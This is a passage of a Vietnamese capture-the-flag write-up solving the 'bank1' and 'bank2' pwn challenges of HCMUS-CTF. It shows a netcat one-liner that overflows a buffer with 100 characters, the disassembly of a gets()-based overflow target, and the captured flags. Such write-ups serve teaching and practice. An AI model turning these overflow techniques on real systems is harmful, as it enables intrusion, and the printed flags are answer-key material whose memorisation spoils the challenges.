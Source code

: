 Vì giá trị của challenge chỉ nằm ở con số 50 nên mình cũng đoán được bài này sẽ như thế nào :D

Mạnh dạn in thẳng vài trăm ký tự vào server =>> Boom =>> Flag

>Thực ra mình nghĩ bài này mục đích chỉ là overflow được con số balance của tài khoản, vì thử phát trúng luôn nên mình cũng không suy nghĩ thêm!

```
python3 -c "print('A'*100)" | nc server.quenmattiuroi portgiday
```

> Flag: **HCMUS-CTF{that_was_easy_xd}**

### bank2
author: xikhud, 100 points

Đọc assembly của bài này ta thấy chương trình nhận vào input của người dùng. Và hàm nhận vào input là hàm **gets()**. 

Vâng, _old buddy **gets**_, một hàm tuyệt vời của C được mô tả trên man page như sau:

> #### DESCRIPTION
       > _ Never use this function. _
       > gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').  No check for buffer overrun is performed.

Nhiệm vụ của ta là overflow được _[ebp-0xc]_ bằng với giá trị _0x66a44_:

~~~
   0x08048554 <+35>:	call   0x8048390 <printf@plt>
   0x08048559 <+40>:	add    esp,0x10
   0x0804855c <+43>:	sub    esp,0xc
   0x0804855f <+46>:	lea    eax,[ebp-0x4c]
   0x08048562 <+49>:	push   eax
   0x08048563 <+50>:	call   0x80483a0 <gets@plt>
   0x08048568 <+55>:	add    esp,0x10
   0x0804856b <+58>:	sub    esp,0x8
   0x0804856e <+61>:	push   DWORD PTR [ebp-0xc]
   0x08048571 <+64>:	lea    eax,[ebx-0x1964]
   0x08048577 <+70>:	push   eax
   0x08048578 <+71>:	call   0x8048390 <printf@plt>
   0x0804857d <+76>:	add    esp,0x10
-->0x08048580 <+79>:	cmp    DWORD PTR [ebp-0xc],0x66a44
   0x08048587 <+86>:	jne    0x804858e <Register+93>
   0x08048589 <+88>:	call   0x8048506 <getFlag>
   0x0804858e <+93>:	nop
   0x0804858f <+94>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08048592 <+97>:	leave  
   0x08048593 <+98>:	ret    
~~~


> Flag: **HCMUS-CTF{little_endian_is_fun}**

### bank3
author: xikhud, 100 points
